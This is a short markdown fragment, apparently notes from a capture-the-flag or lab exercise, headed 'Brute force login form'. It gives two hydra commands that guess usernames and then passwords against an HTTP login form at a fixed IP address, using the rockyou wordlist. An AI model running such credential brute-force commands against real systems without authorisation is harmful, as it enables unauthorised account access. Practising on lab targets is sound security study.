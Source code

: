## Brute force login form

```bash
hydra -L /usr/share/wordlists/rockyou.txt -p idk -t 20 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid username"
```
```bash
hydra -l <user> -P /usr/share/wordlists/rockyou.txt -t 64 35.227.24.107 http-post-form "/login:username=^USER^&password=^PASS^:Invalid password"
```
